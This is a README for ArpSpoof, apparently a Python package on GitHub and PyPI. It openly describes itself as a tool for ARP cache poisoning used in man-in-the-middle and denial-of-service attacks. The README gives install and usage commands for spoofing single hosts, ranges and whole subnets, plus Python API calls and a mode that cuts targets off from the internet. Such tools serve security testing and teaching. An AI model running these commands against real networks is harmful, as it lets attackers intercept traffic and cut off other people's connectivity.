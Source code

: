 ![ArpSpoof logo](https://mauricelambert.github.io/info/python/security/ArpSpoof_small.png "ArpSpoof logo")

# ArpSpoof

## Description

This package implements an ARP Spoofer for MIM (Man-In-the-Middle) or DoS (Denial of Service) attacks.

## Requirements

This package require:
 - python3
 - python3 Standard Library
 - Scapy

## Installation

```bash
pip install ArpSpoof
```

## Usages

### Command lines

```bash
python3 -m ArpSpoof -h                    # Use python module
python3 ArpSpoof.pyz --help               # Use python executable

ArpSpoof 127.0.0.1 127.0.0.2              # Use console script entry point
ArpSpoof -v 127.0.0.1 127.0.0.2,127.0.0.5 # Spoof multiple targets (verbose mode)
ArpSpoof 127.0.0.1 127.0.0.2-127.0.0.5    # Spoof range of targets
ArpSpoof 127.0.0.1 127.0.0.0/29           # Spoof all network

ArpSpoof 127.0.0.1 127.0.0.0/29 -s -t 1   # Semi (spoof only gateway IP for the targets, interval is 1 seconds)
ArpSpoof 127.0.0.1 127.0.0.0/29 -i 127.0. # Use the loopback interface

ArpSpoof 172.16.10.1 172.16.0.33 -p       # Passive mode
```

### Python3

```python
from ArpSpoof import SpooferARP

spoofer = SpooferARP('172.16.10.1', '172.16.0.35')
spoofer.active_cache_poisonning()

spoofer = SpooferARP('172.16.10.1', '172.16.0.35', conf.iface, False, 0.5)
spoofer.passive_cache_poisonning(asynchronous=True)
spoofer.run = False
spoofer.sniffer.stop()                                   # only with asynchronous mode
spoofer.restore()                                        # only with asynchronous mode

# Multiple targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.2,127.0.0.3') # Spoof multiple targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.2-127.0.0.5') # Spoof range of targets
spoofer = SpooferARP('127.0.0.1', '127.0.0.0/30')        # Spoof all network
```

## Links

 - [Github Page](https://github.com/mauricelambert/ArpSpoof)
 - [Pypi](https://pypi.org/project/ArpSpoof/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ArpSpoof.html)
 - [Executable](https://mauricelambert.github.io/info/python/security/ArpSpoof.pyz)

## Help

```text
usage: ArpSpoof.py [-h] [--verbose] [--interface INTERFACE] [--time TIME] [--semi] [--passive] gateway target

positional arguments:
  gateway               Gateway IP or hostname
  target                Target IP or hostname

optional arguments:
  -h, --help            show this help message and exit
  --verbose, -v         Mode verbose (print debug message)
  --interface INTERFACE, -i INTERFACE
                        Part of the IP, MAC or name of the interface
  --time TIME, -t TIME  Time in seconds to sleep between sending ARP packets.
  --semi, -s            Spoof IP of the gateway (target will lost internet connection).
  --passive, -p         Passive mode (response to ARP request only)
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).